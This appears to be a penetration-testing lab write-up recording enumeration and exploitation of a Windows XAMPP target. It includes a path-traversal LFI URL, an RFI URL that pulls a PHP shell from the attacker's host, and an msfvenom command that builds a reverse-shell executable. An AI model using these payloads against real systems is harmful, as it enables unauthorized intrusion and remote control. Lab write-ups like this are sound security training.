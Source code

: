 #Pwned! 
```IP

```
# Enumeration
## FTP 21
FileZilla ftpd 0.9.41 beta
https://github.com/NeoTheCapt/FilezillaExploit/tree/master
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210105939.png?raw=true)

## HTTP 8080
XAMPP
phpmyadmin Access to the requested directory is only available from the local network.
phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210105723.png?raw=true)
user rupert
big.txt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210110447.png?raw=true)
/site
LFI in page parameter
```
http://192.168.164.53:4443/site/index.php?page=..\..\..\..\Windows\System32\drivers\etc\hosts
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210110647.png?raw=true)


## MYSQL 3306
Host '192.168.45.189' is not allowed to connect to this MariaDB server
## HTTP 4443
Apache httpd 2.4.43

# Exploitation
I tried RFI
```
http://192.168.164.53:4443/site/index.php?page=http://192.168.45.189/shell-ivan.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210184137.png?raw=true)
# PrivEsc

## Manual

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.189 LPORT=4444 -f exe > reverse.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191250.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191226.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191359.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

